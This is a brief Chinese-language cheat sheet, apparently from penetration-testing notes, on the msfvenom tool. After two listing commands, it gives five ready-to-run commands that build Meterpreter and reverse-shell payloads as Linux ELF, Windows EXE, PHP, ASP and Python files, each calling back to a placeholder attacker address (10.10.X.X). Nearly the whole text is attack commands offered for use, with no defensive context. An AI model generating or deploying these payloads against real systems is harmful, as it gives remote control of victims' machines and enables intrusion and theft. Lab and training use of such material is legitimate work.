# Msfvenom

```shell
msfvenom --list formats  	# 列出所有支持的格式
msfvenom -l payloads  		# 列出所有的 payload
```

## 普通 payload

1.  Linux可执行和可链接格式 (elf)

    ```shell
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
    ```
2.  Windows

    ```shell
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
    ```
3.  PHP

    ```shell
    msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
    ```
4.  ASP

    ```shell
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
    ```
5.  Python

    ```shell
    msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
    ```
